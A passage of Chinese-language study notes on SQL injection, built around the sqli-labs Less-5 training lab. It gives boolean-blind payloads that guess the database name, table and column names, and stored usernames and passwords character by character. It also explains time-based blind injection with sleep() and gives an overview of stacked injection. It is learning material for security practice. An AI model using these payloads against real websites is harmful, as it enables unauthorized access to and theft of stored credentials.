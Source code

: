  eg:sqli-labs Less5

 - （正确则回显，不正确则无回显）
 - （可使用如left((select database()),1)<'t'  这样的比较二分查找方法快速爆破）


--爆库：

```sql
?id=1' and left((select database()),1)='s' --+
?id=1' and left((select database()),8)='security' --+
```

--爆表

```sql
?id=1' and left((select table_name from information_schema.tables where table_schema=database() limit 3,1),5)='users' --+
```

--爆列名

```sql
?id=1' and left((select column_name from information_schema.columns where table_name='users' limit 4,1),8)='password' --+
```

```sql
?id=1' and left((select column_name from information_schema.columns where table_name='users' limit 12,1),8)='username' --+
```

--爆字段

```sql
?id=1' and length((select password from users order by id limit 0,1))=8 --+(长度)
?id=1' and left((select password from users order by id limit 0,1),4)='dumb' --+
?id=1' and left((select username from users order by id limit 0,1),4)='dumb' --+
```

```sql
?id=1' and length((select password from users order by id limit 1,1))=10 --+(长度)
?id=1' and left((select username from users order by id limit 1,1),8)='angelina  ' --+
```

### 时间盲注

 - 适用：
   `无查询结果、报错信息的回显，页面正常显示的情况`
 - 时间盲注即利用`sleep()`或`benchmark()`等函数使得命令执行时间变长，常与`if(expr1,expr2,expr3)`搭配使用猜解数据库
 - `if(expr1,expr2,expr3)`含义：`exp1`为**TRUE** 则 if()返回值为`expr2`,否则返回值为`expr3`. ——即 (1真返回2，1假返回3).
 - eg判断数据库库名长度语句为：

```sql
 if (length ( database() ) >1 , sleep(5) , 1)
```

### 堆叠注入

 - 堆叠注入的使用条件十分有限，可能受到API、数据库引擎或者权限的限制。
 - 在堆叠注入页面中，程序会获取GET参数ID，并利用PDO的方式查询数据，ID会被拼接到查询语句当中，导致PDO没起到预编译的效果----导致程序存在sql注入漏洞
 - *只有当调用数据库函数支持执行多条sql语句时才能够使用，利用mysqli_multi_query()函数就支持多条sql语句同时执行，但实际情况中，如PHP为了防止sql注入机制，往往使用调用数据库的函数是mysqli_ query()函数，其只能执行一条语句，分号后面的内容将不会被执行*
 - 堆叠查询可以执行多条语句，多语句之间以分号隔开。堆叠注入就是利用此特点，在第二条sql语句中构造要注入的语句。
 - eg：
